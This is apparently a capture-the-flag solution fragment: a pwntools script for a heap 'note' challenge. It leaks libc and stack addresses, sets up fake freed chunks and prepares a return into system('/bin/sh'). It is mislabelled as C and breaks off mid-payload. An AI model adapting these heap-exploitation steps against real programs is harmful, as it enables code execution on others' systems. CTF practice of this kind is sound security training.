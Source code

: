 ```c

def delete_note(typ, idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'? ', str(typ).encode())
    p.sendlineafter(b'? ', str(idx).encode())

main_arena_offset = 0x21ace0

# libc leak
payload = b'A' * 0xf8
p.sendafter(b'> ', payload)
p.recvuntil(payload)
libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = libc_leak - 0x21b780
system = libc_base + 0x50d70
binsh = libc_base + 0x1d8678
popret = libc_base + 0x2a3e5
print('[+] libc_base:', hex(libc_base))

# stack leak
payload = b'A' * 0x158
p.sendafter(b'> ', payload)
p.recvuntil(payload)
stack = u64(p.recv(6).ljust(8, b'\x00')) - 0x180
fake_freelist = stack + 0x10 + 0x50
fake_chunk1 = stack + 0xf0 + 0x50
fake_chunk2 = stack + 0x110 + 0x50
print('[+] stack:', hex(stack))
print('[+] fake 1:', hex(fake_chunk1))
print('[+] fake 2:', hex(fake_chunk2))
print('[+] fake freelist 2:', hex(fake_freelist))

# Victim
write_note(1, 0, b'AAAA')
write_note(1, 1, b'AAAA')
write_note(1, 2, b'AAAA')

# Dummy
for i in range(3, 10):
    write_note(1, i, b'AAAA')

# Big note
write_note(2, 0, b'BBBB')

for i in range(3, 10):
    delete_note(1, i)

delete_note(1, 0)
delete_note(1, 2)

read_note(1, 2)
victim = u64(p.recvline().strip().ljust(8, b'\x00'))
read_note(1, 0)
main_arena = u64(p.recvline().strip().ljust(8, b'\x00'))
print(hex(victim))
print(hex(main_arena))

write_note(2, 1, b'CCCC')

payload = b'A' * 0x60
for i in range(6):
    payload += p64(0)
    payload += p64(0)
```
